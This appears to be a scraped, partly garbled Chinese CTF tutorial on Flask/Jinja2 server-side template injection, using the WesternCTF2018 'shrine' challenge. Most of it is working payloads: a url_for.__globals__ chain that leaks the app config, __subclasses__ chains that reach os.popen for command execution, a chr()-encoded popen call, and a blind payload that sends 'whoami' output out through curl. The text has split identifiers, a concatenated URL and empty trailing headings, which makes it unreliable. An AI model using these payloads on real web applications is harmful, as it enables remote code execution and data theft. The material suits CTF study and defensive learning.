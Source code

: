 subclasses()对每个new-style class“为它的直接子类维持一个弱引用列表”，之后“返回一个包含所有存活引用的列表” ，返回子类''.

class.mro[2] <class ‘object’>''.

class.mro[2].subclasses() 查看所有模块''.

class.mro[2].subclasses()[71].init.globals来找os类下的，init初始化类，然后globals全局来查找所有的方法及变量及参数



**靶场****:[WesternCTF2018]shrine 1**

**启动靶场**

![图片](https://mmbiz.qpic.cn/mmbiz_png/cbYIBjX6JJibVXD3ULCk234YXWEz0P9zDW8erg4rIJ7zshhEAibiaLaoGbe9o418cB9aNAQNfick2tr0WuJOvYltYA/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1)

**使用****tplmap****工具发现有过滤**

![图片](https://mmbiz.qpic.cn/mmbiz_png/cbYIBjX6JJibVXD3ULCk234YXWEz0P9zDib6UVenGqs6jKUdNDgywKYoKLmrfqque8iaicYDLAr9p8XE11p5wfk1nw/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1)



**查看源代码是对****()****进行了过滤，这使得很多语句无法使用，使用****url_for()****绕过**

- 
- 

```
http://d8e25c11-b61d-47c0-b8b5-1078aa2e2283.node4.buuoj.cn:81/shrine/%7B%7Burl_for._globals_%7D%7Dhttp://d8e25c11-b61d-47c0b8b1078aa2e2283.node4.buuoj.cn:81/shrine/%7B%7Burl_for._globals_['current_app'].config%7D%7D
```



**绕过****绕过中括号**

#通过__bases__.__getitem__(0)（__subclasses__().__getitem__(128)）绕过__bases__[0] （__subclasses__()[128]） #通过__subclasses__().pop(128)绕过__bases__[0]（__subclasses__()[128]） "".__class__.__bases__.__getitem__(0).__subclasses__().pop(128).__init__.__globa ls__.popen('whoami').read()

{% set chr= ().__class__.__bases__.__getitem__(0).__subclasses__().__getitem__(250).__init__ .__globals__.__builtins__.chr %}{{().__class__.__bases__[0].__subclasses__() [250].__init__.__globals__.os.popen(chr(119)%2bchr(104)%2bchr(111)%2bchr(97)%2bc hr(109)%2bchr(105)).read()}}

**绕过中括号****+****逗号**



**绕过双大括号**

{% if ''.__class__.__bases__.__getitem__(0).__subclasses__().pop(250).__init__.__globa ls__.os.popen('curl http://127.0.0.1:7999/?i=`whoami`').read()=='p' %}1{% endif %}

**python2****下的盲注**

![图片](https://mmbiz.qpic.cn/mmbiz_png/cbYIBjX6JJibVXD3ULCk234YXWEz0P9zDmNjNxSZENzhVULicy8bSxD0ntSdYg7ZiaDWKLTNbFPsywQQXsYoicHCoQ/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1)



**Python Web****之****flask session**

**%****操作符**
